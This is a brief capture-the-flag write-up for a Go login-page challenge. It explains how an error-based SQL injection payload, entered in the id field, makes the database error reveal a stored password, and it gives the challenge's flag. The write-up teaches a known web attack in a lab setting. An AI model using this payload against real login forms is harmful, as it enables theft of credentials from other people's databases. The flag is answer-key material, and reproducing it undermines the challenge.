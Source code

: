 # learning-go

## Author

IktaS

## Deskripsi

I copy pasted this Go tutorial from the internet and I successfully made the login page, I copied this from the internet so it must be completely secure.... right? You can try logging in using id `test` and password `test`

## Writeup

This challenge is an SQL Injection challenge in which you need to use the returned error to derive information from the database

Insert in the id field `' and 1=cast((SELECT password FROM users LIMIT 1 OFFSET 1) as int) and '1'='1`

You will get an error showing the flag

## Flag

HCS{m4yb3_1_5hou1d_L3aRn_m0R3_90}